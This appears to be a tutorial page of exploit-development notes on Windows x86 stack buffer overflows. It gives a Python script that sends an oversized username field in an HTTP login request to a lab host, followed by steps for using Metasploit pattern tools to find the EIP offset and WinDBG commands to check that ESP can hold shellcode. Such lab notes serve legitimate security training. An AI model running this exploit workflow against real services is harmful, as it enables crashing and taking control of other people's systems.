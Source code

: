 ```yaml
---
title: Stack Buffer Overflow
parent: Windows x86
layout: default
nav_order: 1
---
```


1. First have a PoC ready. Should look like below. Ensure this can overwrite EIP (should be 41414141). Open WinDBG and attach to the process. Run the code on Kali.
```
#!/usr/bin/python
import socket
import sys

try:
  server = "192.168.1.1" # host
  port = 80
  size = 800
  inputBuffer = b"A" * size
  content = b"username=" + inputBuffer + b"&password=A"

  buffer = b"POST /login HTTP/1.1\r\n"
  buffer += b"Host: " + server.encode() + b"\r\n"
  buffer += b"User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
  buffer += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
  buffer += b"Accept-Language: en-US,en;q=0.5\r\n"
  buffer += b"Referer: http://10.11.0.22/login\r\n"
  buffer += b"Connection: close\r\n"
  buffer += b"Content-Type: application/x-www-form-urlencoded\r\n"
  buffer += b"Content-Length: "+ str(len(content)).encode() + b"\r\n"
  buffer += b"\r\n"
  buffer += content

  print("Sending evil buffer...")
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((server, port))
  s.send(buffer)
  s.close()
  
  print("Done!")
  
except socket.error:
  print("Could not connect!")
```

2. Run `msf-pattern_create -l 800` where 800 should be longer or same than the crash length to identify where it crash. Comment the previous inputBuffer in the Python PoC and use this instead.
3. Check what is in EIP, and then use `msf-pattern_offset -l 800 -q EIPVALUE` to get the offset.
4. To ensure that the address is correct, can do something like this if the EIP offset is 780:
```
  ...
  filler = b"A" * 780
  eip = b"B" * 4
  buf = b"C" * 16
  inputBuffer = filler + eip + buf
  ...
```

5. If the EIP offset is now 42424242, then the offset address is correct.
6. In WinDBG, use `r` to check the registers, then use `dds esp L3` to see if the ESP register points to Cs. If yes it means we can use ESP to host shellcode.